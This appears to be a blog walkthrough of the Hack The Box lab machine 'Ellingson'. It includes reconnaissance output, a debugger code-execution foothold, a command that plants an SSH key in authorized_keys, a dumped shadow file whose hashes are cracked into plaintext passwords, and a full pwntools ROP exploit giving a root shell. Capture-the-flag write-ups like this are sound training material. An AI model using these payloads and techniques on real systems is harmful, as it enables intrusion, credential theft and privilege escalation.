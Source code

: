 ```yaml
---
layout: post
title:  "Ellingson Walkthrough"
author: nanobyte
date:   2019-10-22
tags: ROP, SSH, Python
---
```


Ellingson was an awesome box to root! Not only did I get to sharpen some of my ROP skills, but the throwback to one of my favorite movies (Hackers) was a treat from beginning to root. For those of you who have not seen Hackers, shame on you. Go watch it! This box was also awesome because getting the initial foothold was not the average run this flavor exploit, but really had to think out of the box for me and starting new. So, lets get started!

First off, I ran nmap against the box

```
nmap -sV -O 10.10.10.139
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-22 10:15 CDT
Nmap scan report for 10.10.10.139
Host is up (0.066s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.92 seconds
```

Once I was able to identify what services were running, I hopped on over to the website and began to poke around while running gobuster. When I got to the /articles/ directory, I noticed the numbers incremented and so manually fuzzed. Fuzzing http://10.10.10.139/articles/5 was able to find python interactive shells. There, I had access to a python debugger!

{% highlight bash %}
File "/opt/corp-web/run.py", line 32, in show_articles
slug = articles[index-1]

>>> import getpass
>>> print(getpass.getuser())
hal
{% endhighlight %}

Nice! I found I have the ability to run os system commands. During enumeration, I also found that there is Port 22 open. First, I tried to steal the SSH key, but I did not know the key passphrase. However, looking further, I can write to the authorized_keys file! Since taking the id_rsa key file on there didn’t work, let’s generate a new key, and place our pub key in there:

{% highlight bash %}
import os

os.system("echo '\nssh-rsa [your RSA key] root@kali' >> /home/hal/.ssh/authorized_keys")
{% endhighlight %}

And now I can login to SSH! Awesome, initial foothold gained!

Now that we login, during further enumeration we are user Hal and need to get to user. Enumerating the system, there is a backup folder. In there, we have read permissions to shadow.bak!? Bad admin!

{% highlight bash %}
cat /var/backups/shadow.bak

root:*:17737:0:99999:7:::
daemon:*:17737:0:99999:7:::
bin:*:17737:0:99999:7:::
sys:*:17737:0:99999:7:::
sync:*:17737:0:99999:7:::
games:*:17737:0:99999:7:::
man:*:17737:0:99999:7:::
lp:*:17737:0:99999:7:::
mail:*:17737:0:99999:7:::
news:*:17737:0:99999:7:::
uucp:*:17737:0:99999:7:::
proxy:*:17737:0:99999:7:::
www-data:*:17737:0:99999:7:::
backup:*:17737:0:99999:7:::
list:*:17737:0:99999:7:::
irc:*:17737:0:99999:7:::
gnats:*:17737:0:99999:7:::
nobody:*:17737:0:99999:7:::
systemd-network:*:17737:0:99999:7:::
systemd-resolve:*:17737:0:99999:7:::
syslog:*:17737:0:99999:7:::
messagebus:*:17737:0:99999:7:::
_apt:*:17737:0:99999:7:::
lxd:*:17737:0:99999:7:::
uuidd:*:17737:0:99999:7:::
dnsmasq:*:17737:0:99999:7:::
landscape:*:17737:0:99999:7:::
pollinate:*:17737:0:99999:7:::
sshd:*:17737:0:99999:7:::
theplague:$6$.5ef7Dajxto8Lz3u$Si5BDZZ81UxRCWEJbbQH9mBCdnuptj/aG6mqeu9UfeeSY7Ot9gp2wbQLTAJaahnlTrxN613L6Vner4tO1W.ot/:17964:0:99999:7:::
hal:$6$UYTy.cHj$qGyl.fQ1PlXPllI4rbx6KM.lW6b3CJ.k32JxviVqCC2AJPpmybhsA8zPRf0/i92BTpOKtrWcqsFAcdSxEkee30:17964:0:99999:7:::
margo:$6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:17964:0:99999:7:::
duke:$6$bFjry0BT$OtPFpMfL/KuUZOafZalqHINNX/acVeIDiXXCPo9dPi1YHOp9AAAAnFTfEh.2AheGIvXMGMnEFl5DlTAbIzwYc/:17964:0:99999:7:::
{% endhighlight %}

Let’s crack those hashes!

{% highlight bash %}
hashcat64.exe -m 1800 -a 0 ellingsin.txt rockyou.txt --force

theplague:password123
margo:iamgod$08
{% endhighlight %}

Now that it’s cracked, let’s login as user!

su margo

{% highlight bash %}
cat /home/margo/user.txt
d0ff9e3f9da8--------------------
{% endhighlight %}

From here, I ran the linenum.sh script, and found a binary running that should NOT be there!

{% highlight bash %}
find / -perm -u=s -type f 2>/dev/null

/usr/bin/garbage
{% endhighlight %}

I tried several methods to get the binary to my box. All ways failed, until I found openssl base64! 

{% highlight bash %}
openssl base64 < garbage

//Copy output of encoded garbage

//On your machine, create garbage.input

openssl base64 -d < garbage.input > garbage.output
{% endhighlight %}

Garbage.output is now the binary on your system! For the ROP, I had to watch Bitterman's video several times, and speak woith the HTB community on Discord (if you are NOT on their channel, I highly recommend it. There is a community of hackers who really do want to help you along with nudges!). After watching the second half of the video, and chatting with a few fellow hackers, I was able to come up with the following:

{% highlight bash %}
from pwn import *

context(terminal=['tmux', 'new-window'])
session = ssh('margo', '10.10.10.139', password='iamgod$08')

p = session.process('/usr/bin/garbage')
#p = gdb.debug('./garbage', 'b main')

context(os='linux', arch='amd64')
#context.log_level = 'DEBUG'

# make sure these are local and freshly grabbed from remote with correct permissions
garbage = ELF('garbage')
rop = ROP(garbage)
libc = ELF('libc.so.6')
junk = "A" * 136

# build rop chain
rop.search(regs=['rdi'], order='regs')
rop.puts(garbage.got['puts'])
rop.call(garbage.symbols['main'])
print "ROP Chain 1:\n{}".format(rop.dump())

payload = junk + str(rop)
p.recvuntil('password:')
p.sendline(payload)
p.recvuntil('denied.')

leaked_puts_address_in_libc = p.recv()[:8].strip().ljust(8, "\x00")
print("Leaked puts@GLIBCL {}".format(str(leaked_puts_address_in_libc)))

# unpack
leaked_puts_address_in_libc = u64(leaked_puts_address_in_libc)

libc.address = leaked_puts_address_in_libc - libc.symbols['puts']
rop2 = ROP(libc)
rop2.setuid(0x0)
rop2.system(next(libc.search('/bin/sh\x00')))
print "ROP Chain 2:\n{}".format(rop2.dump())

payload = junk + str(rop2)
p.sendline(payload)
p.recvuntil('denied.')

p.clean()
p.interactive()
{% endhighlight %}

Now, once you run the binary on your local system, it will deliver root!

{% highlight bash %}
cat /root/root.txt
1cc73a448021--------------------
{% endhighlight %}
